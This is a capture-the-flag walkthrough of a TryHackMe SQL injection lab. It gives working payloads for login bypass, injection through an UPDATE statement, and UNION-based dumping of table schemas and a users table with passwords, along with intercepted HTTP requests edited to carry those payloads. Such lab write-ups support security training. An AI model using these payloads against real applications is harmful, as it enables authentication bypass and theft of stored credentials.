

# Tryhackme SQL Injection Lab


- [Room on THM](https://tryhackme.com/room/sqlilab)  

## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

We have a login page. We need to bypass login  
This payload worked `1 or 1=1; --`  
  

### SQL Injection 2: Input Box String

The payload that worked was `1' or 1=1; --`  

  

### SQL Injection 3: URL Injection

For this one to work, we need to intercept the request (there is a client side check that block from putting special char)  
So first we put legit chars and then we modify our request live. This payload works `1' or 1=1; --`  

- Initial request

```http
GET /sesqli3/login?profileID=1&password=ss HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli3/login?next=http%3A%2F%2F10.10.2.114%3A5000%2Fsesqli3%2Fhome
DNT: 1
Connection: close
Cookie: session=.eJy9j71OxDAQhN9l6xRe_zs1QqK5jjpa2xtkkbsE-04Ine7dcTgkKKkoZ2ZntN8VjlROtG3Ty6VkOiWGcaal8QCN29tScMp0Jhiv8Pz0ACMOwL2xwAgwwImO_R4eay-upe1OSa-Hu9vVRq1taz0fatfeCiONEaiF19_h-1pzj3TyanYi0awIU6Ckk3ZZBm1YzM7PLitDLgXU5Bk9WkWJpfKEkdli3NfqOpeF9x8BRTcaLVQ_YJRG3H5gLo3rVPIXyN2T_wHobBTGaw4hOhF1cJGs9spEZMOapUAjtXGWApLzSpHvrGg5qqRSX_wroPwFePsEOtCNIQ.ZKm5jg.4ICVFxM5DUc8Dez2qbd-t0IZX0w
Upgrade-Insecure-Requests: 1
```

- Edited request

```http
GET /sesqli3/login?profileID=1'+or+1%3d1%3b+--&password=ss HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli3/login?next=http%3A%2F%2F10.10.2.114%3A5000%2Fsesqli3%2Fhome
DNT: 1
Connection: close
Cookie: session=.eJy9j71OxDAQhN9l6xRe_zs1QqK5jjpa2xtkkbsE-04Ine7dcTgkKKkoZ2ZntN8VjlROtG3Ty6VkOiWGcaal8QCN29tScMp0Jhiv8Pz0ACMOwL2xwAgwwImO_R4eay-upe1OSa-Hu9vVRq1taz0fatfeCiONEaiF19_h-1pzj3TyanYi0awIU6Ckk3ZZBm1YzM7PLitDLgXU5Bk9WkWJpfKEkdli3NfqOpeF9x8BRTcaLVQ_YJRG3H5gLo3rVPIXyN2T_wHobBTGaw4hOhF1cJGs9spEZMOapUAjtXGWApLzSpHvrGg5qqRSX_wroPwFePsEOtCNIQ.ZKm5jg.4ICVFxM5DUc8Dez2qbd-t0IZX0w
Upgrade-Insecure-Requests: 1
```

### SQL Injection 4: POST Injection

We need to process the same and intercept the traffic. This payload `1' or 1=1; --` worked (it has to be url encoded)  

- Original request

```http
POST /sesqli4/login HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli4/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://10.10.2.114:5000
DNT: 1
Connection: close
Cookie: session=.eJy90T1PAzEMBuD_krlDnDhfNyMklm7MleM46MTROy6tEKr630kpEgwMnTrmdWzliU_qjcY9Lcvu5TgW2rOoodLUZKOatPdphF2hA6nhpJ6fHtQAGyW9Y1KDUhu1p7d-Xz2uvXEe2yUZ-XV7TftpodaWeT1s136OXjvjnAbUEX-KH_Naegk52ho0U7UEnIiRMRST0ImuIdZQrKPACZCiQARvicXYSJBFPOTLtHWu4ySXNyrQPWg00fqpBuP0-RdzbLLuxvINuWbmHsDgs3YRJaUcdMYUMnmM1mUQJyhGgzPogqcEFKK1FLsVvGTLlvvEW4HmH6C9B5C5IoOGFJ3YLNQ3F7qAqs8Sk9WxZO712o22SO4f0PeLnk0pCQH4VqD9Azx_AXCNz54.ZKm8BQ.AsuEoQn78yRUZfqQYn1RJ1d0KEk
Upgrade-Insecure-Requests: 1

profileID=t&password=t
```

- Edited request

```http
POST /sesqli4/login HTTP/1.1
Host: 10.10.2.114:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.2.114:5000/sesqli4/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.2.114:5000
DNT: 1
Connection: close
Cookie: session=.eJy90T1PAzEMBuD_krlDnDhfNyMklm7MleM46MTROy6tEKr630kpEgwMnTrmdWzliU_qjcY9Lcvu5TgW2rOoodLUZKOatPdphF2hA6nhpJ6fHtQAGyW9Y1KDUhu1p7d-Xz2uvXEe2yUZ-XV7TftpodaWeT1s136OXjvjnAbUEX-KH_Naegk52ho0U7UEnIiRMRST0ImuIdZQrKPACZCiQARvicXYSJBFPOTLtHWu4ySXNyrQPWg00fqpBuP0-RdzbLLuxvINuWbmHsDgs3YRJaUcdMYUMnmM1mUQJyhGgzPogqcEFKK1FLsVvGTLlvvEW4HmH6C9B5C5IoOGFJ3YLNQ3F7qAqs8Sk9WxZO712o22SO4f0PeLnk0pCQH4VqD9Azx_AXCNz54.ZKm8BQ.AsuEoQn78yRUZfqQYn1RJ1d0KEk
Upgrade-Insecure-Requests: 1

profileID=1'+or+1%3d1%3b+--&password=t
```

## Introduction to SQL Injection: Part 2

### SQL Injection 5: UPDATE Statement

We need to login with the creds `10`:`toor`  
Then we have to access to "Edit Profile"  
The injection seems to work in the email field  
and when we using `',nickName=sqlite_version(),email='` it seems to be sqlite.  

  

With this payload we get this `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`  

  

Let's try to see what is in `secrets`  

`',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='`  

  

`',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='`  

And we get the flag!  

## Vulnerable Startup: Broken Authentication

Here the payload that worked is `admin' or 1=1 --`  

## Vulnerable Startup: Broken Authentication 2

We can bypass login using the same payload as before.  

I won't go in details here, you just need to follow the explaination in the task if you are stuck.  

> Note: the chall that I did not cover here can be done by refering to the task in case you are stuck on your own.

## Vulnerable Startup: Book Title 1

Using the NULL method we can see that it needs 4 fields `') UNION SELECT NULL, NULL, NULL, NULL-- -`  

  

Using this payload we find the tables  
`') UNION SELECT group_concat(tbl_name), group_concat(tbl_name), group_concat(tbl_name), group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`  

  

Using this payload we get more information about the users table  
`') UNION SELECT sql, sql, sql, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -`  


Finally, using this payload we can get dump the users table and get the flag  
`') UNION SELECT id, username, password, id from users-- -`  

## Vulnerable Startup: Book Title 2

`' Union select '-1''union select 1, 2, 3, 4-- -`  

### Coming soon